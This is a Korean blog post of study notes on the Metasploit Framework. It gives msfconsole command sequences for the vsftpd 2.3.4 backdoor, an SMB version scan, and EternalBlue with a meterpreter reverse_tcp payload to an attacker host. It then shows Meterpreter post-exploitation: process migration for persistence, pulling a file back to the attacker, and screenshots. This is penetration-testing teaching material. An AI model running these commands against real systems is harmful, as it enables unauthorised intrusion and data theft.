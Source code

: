 ```yaml
---
layout: post
title: "Metasploit Framework 공부"
date: 2025-09-07 17:00:00 +0900
categories: [해킹 툴]
---
```


### 1. 개요

Metasploit Framework(MSF)는 취약점 연구, 익스플로잇 코드 개발 및 실행을 위한 오픈소스 플랫폼이다. 정보 수집 · 취약점 스캔 · 익스플로잇 · 페이로드 실행 등 침투 테스트의 전 과정을 체계적으로 수행할 수 있는 환경을 제공한다.

개별 도구를 따로 사용하는 대신 `msfconsole`이라는 통합된 인터페이스 안에서 다양한 모듈을 조합하여 공격을 수행할 수 있다는 것이 가장 큰 특징이다.

---

### 2. 핵심 구성 요소

*   **Exploits (익스플로잇):** 취약점을 직접 공격하는 코드이다. 운영체제 · 서비스 · 애플리케이션 등 다양한 대상의 취약점을 공격하는 수천 개의 익스플로잇 모듈이 내장되어 있다.
*   **Payloads (페이로드):** 익스플로잇이 성공한 후 대상 시스템에서 실행되는 코드이다. 가장 대표적인 페이로드가 리버스 쉘을 연결하는 `meterpreter`나 `shell`이다.
*   **Auxiliary (보조 모듈):** 직접적인 공격 외에 정보 수집 · 스캐닝 · 퍼징 등 보조적인 작업을 수행하는 모듈이다. 포트 스캐너나 특정 서비스의 버전 정보를 확인하는 용도로도 사용된다.

---

### 3. 기본 사용 흐름

`msfconsole` 내에서의 작업은 일반적으로 다음의 흐름을 따른다.

1.  **`search [키워드]`**: 공격할 서비스나 취약점과 관련된 모듈을 검색한다.
2.  **`use [모듈 이름]`**: 사용할 익스플로잇이나 보조 모듈을 선택한다.
3.  **`show options`**: 선택한 모듈에 설정해야 할 옵션들을 확인한다. `RHOSTS`, `LHOST`
4.  **`set [옵션 이름] [값]`**: `RHOSTS`(대상 IP) `LHOST`(공격자 IP) 등 필요한 옵션을 설정한다.
5.  **`run` 또는 `exploit`**: 설정된 값으로 모듈을 실행한다.

---

### 4. 사용 예시: vsftpd 백도어 공격

알려진 백도어 취약점이 있는 `vsftpd 2.3.4` 버전을 대상으로 Metasploit을 이용해 시스템 쉘을 획득하는 상황이다.

```bash
# 1. msfconsole 실행
msfconsole

# 2. vsftpd 관련 모듈 검색
msf6 > search vsftpd

# 3. 백도어 익스플로잇 모듈 선택
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor

# 4. 옵션 확인
msf6 exploit(...) > show options

# 5. 대상 IP 설정
msf6 exploit(...) > set RHOSTS 192.9.200.11

# 6. 공격 실행
msf6 exploit(...) > exploit
```
   ![MetasploitVsftpd](/assets/images/Meta_1.png)

`exploit` 명령 실행 후 익스플로잇이 성공하면 대상 서버의 `root` 권한 쉘이 획득된 것을 확인할 수 있다. `whoami` 명령어를 통해 이를 증명할 수 있다.

---

### 5. 사용 예시 2: 보조 모듈을 이용한 정보 수집 (SMB 스캔)

Metasploit은 직접적인 공격 외에도 `Auxiliary` 모듈을 통해 다양한 정보 수집 활동을 수행할 수 있다. 예를 들어 `smb_version` 모듈은 대상 서버의 SMB(윈도우 파일 공유) 서비스 버전을 확인하는 데 사용된다.

```bash
# 1. SMB 버전 스캔 모듈 검색 및 선택
msf6 > search smb_version
msf6 > use auxiliary/scanner/smb/smb_version

# 2. 대상 IP 설정
msf6 auxiliary(...) > set RHOSTS 192.9.200.11

# 3. 스캐너 실행
msf6 auxiliary(...) > run
```
   ![MetasploitSmb](/assets/images/Meta_2.png)

`run` 명령 실행 후 대상 서버의 운영체제 정보와 Samba 버전 정보가 출력된다. 이 정보는 추후 해당 버전에 맞는 익스플로잇을 찾는 데 사용될 수 있다.

---

### 6. 사용 예시 3: Meterpreter를 이용한 시스템 제어

Metasploit의 가장 강력한 기능은 **Meterpreter** 페이로드에 있다. Meterpreter는 일반 쉘과 달리 메모리 상에서만 동작하며, 파일 시스템 정보 수집 · 프로세스 제어 · 권한 상승 등 침투 테스트에 특화된 다양한 기능을 제공한다.

이 예시는 윈도우 시스템의 SMB 취약점(MS17-010, 이터널블루)을 공격하여 Meterpreter 세션을 획득하고 시스템을 제어하는 과정을 보여준다.

#### **1. 익스플로잇 및 페이로드 설정**
```bash
# 이터널블루 익스플로잇 모듈 선택
msf6 > use exploit/windows/smb/ms17_010_eternalblue

# 옵션 확인 및 대상 IP(RHOSTS), 공격자 IP(LHOST) 설정
msf6 exploit(...) > set RHOSTS [Target Windows IP]
msf6 exploit(...) > set LHOST [Attacker IP]

# 페이로드를 Meterpreter로 설정 (보통 자동으로 설정됨)
msf6 exploit(...) > set PAYLOAD windows/x64/meterpreter/reverse_tcp

# 공격 실행
msf6 exploit(...) > exploit
```

#### **2. Meterpreter 세션 활용**
공격에 성공하면 `meterpreter >` 라는 새로운 프롬프트가 나타난다. 여기서는 일반 쉘 명령어와 다른 Meterpreter 전용 명령어를 사용할 수 있다.

*   **시스템 정보 확인:**
    ```meterpreter
    sysinfo     # 대상 시스템의 운영체제, 아키텍처 등 기본 정보 확인
    getuid      # 현재 세션이 어떤 사용자 권한으로 실행 중인지 확인 (예: NT AUTHORITY\SYSTEM)
    ```
*   **프로세스 제어:**
    ```meterpreter
    ps          # 현재 실행 중인 프로세스 목록 확인
    migrate [PID] # Meterpreter 세션을 다른 안정적인 프로세스(예: explorer.exe)로 이전하여 연결 지속성을 높임
    ```
*   **파일 시스템 및 정보 탈취:**
    ```meterpreter
    ls          # 현재 디렉터리의 파일 목록 확인
    download C:\\Users\\user\\Desktop\\secret.txt .  # 대상 PC의 파일을 공격자 PC로 다운로드
    screenshot  # 대상 PC의 현재 화면을 스크린샷으로 캡처
    ```

   ![MetasploitSession](/assets/images/Meta_3.png)

이처럼 Meterpreter는 단순한 원격 제어를 넘어 시스템을 분석하고 정보를 탈취하며 공격의 흔적을 숨기는 등 고도화된 침투 테스트 작업을 효율적으로 수행할 수 있는 환경을 제공한다.

<hr class="short-rule">

